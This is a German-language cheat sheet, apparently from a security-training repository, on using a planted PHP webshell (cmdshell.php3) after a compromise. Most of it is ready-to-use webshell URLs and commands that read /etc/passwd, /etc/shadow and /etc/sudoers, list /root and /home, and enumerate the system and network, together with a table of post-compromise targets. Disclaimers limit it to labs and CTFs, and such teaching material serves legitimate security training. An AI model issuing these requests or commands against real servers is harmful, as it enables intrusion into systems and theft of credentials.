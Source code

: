 # 🐚 PHP Webshell – Usage & Enumeration Guide

## 📘 Kontext

Diese Datei dokumentiert typische **Post-Exploitation-Kommandos**, die nach erfolgreicher Platzierung einer PHP-Webshell (`cmdshell.php3`) ([mehr zu cmdshell.php3](/vulnerabilities/sqlInjection/cmdshellAndHowToUse/phpRCE_CheatSheet.md)) auf einem Zielsystem ausgeführt werden können.  
Der Zugriff erfolgt über einen GET-Parameter `cmd`, der Systembefehle auf dem Server ausführt.

> ⚠️ Hinweis: Diese Vorgehensweise dient ausschließlich Schulungs- und Testzwecken innerhalb legaler Testumgebungen oder CTF-Szenarien.

---

## 🔗 Beispielhafte Webshell-Aufrufe

Die folgenden URLs zeigen den Zugriff auf die Webshell:

```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=[COMMAND]
```

**Beispielhafte Kommandos:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/passwd
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/shadow
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group | grep admin
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/sudoers
```
**Dateisystem & Benutzerverzeichnisse durchsuchen:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /var/www
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /home
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /root
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=id
```

---

## 🧾 Systeminformationen ermitteln

```bash
uname -a        # vollständige Systeminformationen
uname -s        # Kernel-Name
uname -n        # Netzwerkname des Hosts
uname -r        # Kernel-Version
uname -v        # Kernel-Build
uname -m        # Architektur (z. B. x86_64)
uname -p        # Prozessor
uname -i        # Hardware-Plattform

pwd             # aktuelles Verzeichnis
whoami          # aktueller Benutzer
```

---

## 🌐 Netzwerküberblick

### Netstat-Befehle zur Analyse aktiver Verbindungen:

```bash
netstat         # allgemeine Übersicht
netstat -a      # alle Verbindungen und Ports
netstat -at     # nur TCP
netstat -au     # nur UDP
netstat -l      # nur "listening" Ports
netstat -lp     # mit Prozessinfos (sofern verfügbar)
```

---

## 🧪 Typische Ziele nach Webshell-Zugriff

| Ziel            | Zielsetzung                     |
| --------------- | ------------------------------- |
| `/etc/passwd`   | Benutzerkonten einsehen         |
| `/etc/shadow`   | Passwort-Hashes (nur als root)  |
| `/etc/group`    | Gruppenzugehörigkeiten          |
| `/etc/sudoers`  | Sudo-Rechte prüfen              |
| `/var/www/`     | Web-Inhalte durchsuchen         |
| `/home/`        | Benutzerverzeichnisse einsehen  |
| `/root/`        | Admin-Account analysieren       |
| `id`, `whoami`  | User-Kontext prüfen             |
| `netstat`, `ss` | Netzwerkservices identifizieren |
| `uname -a`      | Systemplattform identifizieren  |

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

## 🔗 Siehe auch
- [phpRCE_CheatSheet.md](/vulnerabilities/sqlInjection/cmdshellAndHowToUse/phpRCE_CheatSheet.md)
- [sqlInjectionToShell.md](/vulnerabilities/sqlInjection/SQLInjectionToShell.md)
- [postExploitationTools.md](/vulnerabilities/postExploitationTools.md)